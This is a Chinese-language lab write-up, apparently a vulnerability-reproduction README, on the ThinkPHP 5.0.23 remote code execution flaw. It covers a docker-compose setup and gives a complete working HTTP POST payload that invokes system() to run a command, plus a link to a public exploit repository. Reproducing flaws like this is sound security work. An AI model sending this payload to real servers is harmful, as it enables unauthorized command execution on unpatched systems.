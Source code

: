 # ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的thinkphp 5.0.23环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可看到默认的ThinkPHP启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行`id`命令：

![image-20220302151553822](./images/202203021515902.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE

